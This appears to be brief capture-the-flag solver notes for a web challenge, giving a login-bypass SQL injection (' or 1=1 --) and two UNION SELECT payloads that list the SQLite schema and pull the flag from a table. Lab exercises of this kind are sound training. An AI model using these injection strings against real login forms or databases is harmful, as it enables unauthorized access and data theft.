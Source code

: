 #### Description

Can you find the flag on this website.

Additional details will be available after launching your challenge instance.

Detalles: 

Username: hola   
Password: ' or 1=1 --


' UNION SELECT name, sql, null from sqlite_master;--
' UNION SELECT flag, null, null from more_table;--